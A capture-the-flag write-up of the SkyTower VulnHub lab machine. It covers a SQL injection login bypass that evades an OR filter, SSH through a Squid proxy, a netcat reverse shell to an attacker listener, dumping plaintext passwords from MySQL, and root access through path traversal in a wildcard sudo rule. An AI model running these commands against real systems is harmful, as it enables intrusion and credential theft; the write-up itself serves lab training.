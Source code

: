 ﻿## Skytower Writeup

 

So we start with the usual nmap scan and checkout what's going on.

```
nmap -v -sV -sC 192.168.56.101
```
```
Nmap scan report for 192.168.56.101
Host is up (0.00013s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)
```
Ok then so a Squid, a webserver, and ssh. Checking out the website we see a Skytech Login form.
Insert 1.png skytech main page 
![](pics/1.png)
So try admin' in the input box and it  shows us a sql error.
```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1]
```
So we try doing the usual ' OR 1=1# and we get nothing. Checking the error message again it seems like OR is being filtered out.
```
curl --data "email=admin&password=' OR 1=1#" http://192.168.56.101/login.php
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11#'' at line 1]
```
So we replace the OR with || instead and it works we are now logged in as the user john.
```
curl --data "email=admin&password=' || 1=1#" http://192.168.56.101/login.php
```
Insert 2.png login panel
![](pics/2.png)

OK then we have some creds for the ssh that's behind this proxy. So we setup our /etc/proxychains.conf to use the http proxy on port 3128  then we can ssh into the box.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.101' (ECDSA) to the list of known hosts.
john@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 15:08:41 2018

Funds have been withdrawn
Connection to 192.168.56.101 closed.
```
Umm maybe not then, we lose our $2 and get booted? That's not good but we can still run a command over ssh, so let's get a quick shell with netcat.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101 nc 192.168.56.102 443 -e /bin/sh
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
john@192.168.56.101's password:

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40670
id
uid=1000(john) gid=1000(john) groups=1000(john)
```
And we have no python so it seems like we might be stuck in this crappy shell. No worries though moving forward we can see a couple more users on the box, but we can't look at their home folders. So we check out the login.php from /var/www and it appears to give us the mysql password.
```
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
```
We can also see the filtering that is happening from before that wouldn't allow us to use OR operators.
```
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT"); 
$email = str_ireplace($sqlinjection, "", $_POST['email']); 
$password = str_ireplace($sqlinjection, "", $_POST['password']);
```

So with this crap shell we can't explore the Mysql very easily but we can exec one command at a time like we've been doing. 
```
mysql -uroot -proot -e 'show databases;'
Database
information_schema
SkyTech
mysql
performance_schema
mysql -uroot -proot -e 'use SkyTech; show tables;'
Tables_in_SkyTech
login
mysql -uroot -proot -e 'use SkyTech; show tables; select * from login;'
Tables_in_SkyTech
login
id      email   password
1       john@skytech.com        hereisjohn
2       sara@skytech.com        ihatethisjob
3       william@skytech.com     senseable
```
Good stuff. So William's password doesn't seem to work, but we login as Sara and get booted as usual. We setup a listener and get a shell like before then notice we can run a couple commands as root which are configured horribly with wildcard characters.
```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40684
sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
So lets try cating the root flag with some path traversal should be easy enough.
```
sudo cat /accounts/../../../../../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
Awesome so let's get our root shell then.
```
root@kali:~/machines/skytower# proxychains ssh root@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
root@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 16:30:19 2018 from 192.168.56.101
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
```
So that was pretty fun, thanks a bunch @telspacesystems and @VulnHub for the challenges.
 

